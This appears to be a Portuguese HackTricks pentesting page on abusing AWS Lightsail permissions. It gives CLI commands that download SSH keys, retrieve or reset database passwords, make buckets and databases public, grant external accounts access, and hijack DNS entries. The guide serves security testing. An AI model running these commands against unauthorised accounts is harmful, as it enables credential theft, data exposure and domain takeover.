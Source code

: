 # AWS - Lightsail Privesc

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>

## Lightsail

Para obter mais informações sobre o Lightsail, consulte:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
É importante observar que o Lightsail **não usa funções IAM pertencentes ao usuário**, mas a uma conta gerenciada pela AWS, portanto, você não pode abusar deste serviço para escalonar privilégios. No entanto, **dados sensíveis** como código, chaves de API e informações de banco de dados podem ser encontrados neste serviço.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Esta permissão permitirá que você obtenha as chaves SSH para acessar as instâncias:

```
aws lightsail download-default-key-pair
```

**Impacto potencial:** Encontrar informações sensíveis dentro das instâncias.

### `lightsail:GetInstanceAccessDetails`

Esta permissão permitirá que você gere chaves SSH para acessar as instâncias:

```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```

**Impacto potencial:** Encontrar informações sensíveis dentro das instâncias.

### `lightsail:CreateBucketAccessKey`

Esta permissão permitirá que você obtenha uma chave para acessar o bucket:

```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```

**Impacto potencial:** Encontrar informações sensíveis dentro do bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Esta permissão permitirá que você obtenha as credenciais para acessar o banco de dados:

```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```

**Impacto potencial:** Encontrar informações sensíveis dentro do banco de dados.

### `lightsail:UpdateRelationalDatabase`

Esta permissão permitirá que você altere a senha para acessar o banco de dados:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Se o banco de dados não for público, você também poderá torná-lo público com essas permissões com

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Impacto potencial:** Encontrar informações sensíveis dentro do banco de dados.

### `lightsail:OpenInstancePublicPorts`

Esta permissão permite abrir portas para a Internet

```bash
aws lightsail open-instance-public-ports \
    --instance-name MEAN-2 \
    --port-info fromPort=22,protocol=TCP,toPort=22
```

**Impacto potencial:** Acessar portas sensíveis.

### `lightsail:PutInstancePublicPorts`

Esta permissão permite abrir portas para a Internet. Observe que a chamada fechará qualquer porta aberta não especificada nela.

```bash
aws lightsail put-instance-public-ports \
    --instance-name MEAN-2 \
    --port-infos fromPort=22,protocol=TCP,toPort=22
```

**Impacto potencial:** Acessar portas sensíveis.

### `lightsail:SetResourceAccessForBucket`

Essas permissões permitem dar a uma instância acesso a um bucket sem credenciais extras

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
    --resource-name <instance-name> \
    --bucket-name <bucket-name> \
    --access allow
```
{% endcode %}

**Impacto potencial:** Novo acesso potencial a buckets com informações sensíveis.

### `lightsail:UpdateBucket`

Com esta permissão, um invasor pode conceder ao seu próprio conta da AWS acesso de leitura sobre buckets ou até mesmo tornar os buckets públicos para todos:

```bash
# Conceder acesso de leitura à conta externa
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Conceder leitura ao público
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket privado, mas objetos únicos podem ser públicos
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```

**Impacto potencial:** Novo acesso potencial a buckets com informações sensíveis.

### `lightsail:UpdateContainerService`

Com essas permissões, um invasor pode conceder acesso a ECRs privados do serviço de contêineres

```bash
aws update-container-service \
    --service-name <name> \
    --private-registry-access ecrImagePullerRole={isActive=boolean}
```

**Impacto potencial:** Obter informações sensíveis de ECRs privados

### `lightsail:CreateDomainEntry`

Um invasor com essa permissão pode criar um subdomínio e apontá-lo para seu próprio endereço IP (subdomínio takeover), ou criar um registro SPF que permite que ele falsifique e-mails do domínio, ou até mesmo definir o domínio principal como seu próprio endereço IP.

```bash
aws lightsail create-domain-entry \
    --domain-name example.com \
    --domain-entry name=dev.example.com,type=A,target=192.0.2.0
```

**Impacto potencial:** Tomar posse de um domínio

### `lightsail:UpdateDomainEntry`

Um invasor com essa permissão pode criar um subdomínio e apontá-lo para seu próprio endereço IP (subdomínio takeover), ou criar um registro SPF que permite que ele falsifique e-mails do domínio, ou até mesmo definir o domínio principal como seu próprio endereço IP.

```bash
aws lightsail update-domain-entry \
    --domain-name example.com \
    --domain-entry name=dev.example.com,type=A,target=192.0.2.0
```

**Impacto potencial:** Tomar posse de um domínio

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>